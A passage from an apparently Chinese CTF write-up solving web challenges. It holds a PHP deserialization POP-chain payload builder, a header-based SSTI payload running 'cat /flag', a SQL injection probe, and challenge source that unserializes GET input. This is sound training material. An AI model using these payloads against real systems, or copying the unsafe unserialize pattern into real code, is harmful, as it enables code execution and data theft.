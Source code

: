 ```php
    public $a="TXW4EVER";
    private $fun='abc';

}


$a=new TianXiWei();
$b=new Ilovetxw();
$c=new NISA();
$d=new NISA();


$d->txw4ever='echo(implode(scandir('/')))';// 'include("/fllllllaaag");'
$b->su=$d;
$c->fun=$b;
$a->ext=$c;
echo(serialize($a));
?>
```

### midlevel

CLIENT-IP伪造，然后php的SSTI

CLIENT-IP:{{system('cat /flag')}}

### join-us

用到了无列名join注入，先放着吧

有个小知识，因为as被ban导致database没了，想获取库名可以看报错信息

```sql
0'||(select * from aa);#
Table 'sqlsql.aa' doesn't exist
```

### is secret

照搬的[CISCN 2019华东南]Double Secret

### popchains

```php
<?php

echo 'Happy New Year~ MAKE A WISH<br>';

if(isset($_GET['wish'])){
    @unserialize($_GET['wish']);
}
else{
    $a=new Road_is_Long;
    highlight_file(__FILE__);
}
/***************************pop your 2022*****************************/

class Road_is_Long{
    public $page;
    public $string;
    public function __construct($file='index.php'){
        $this->page = $file;
    }
    public function __toString(){
        return $this->string->page;
    }
```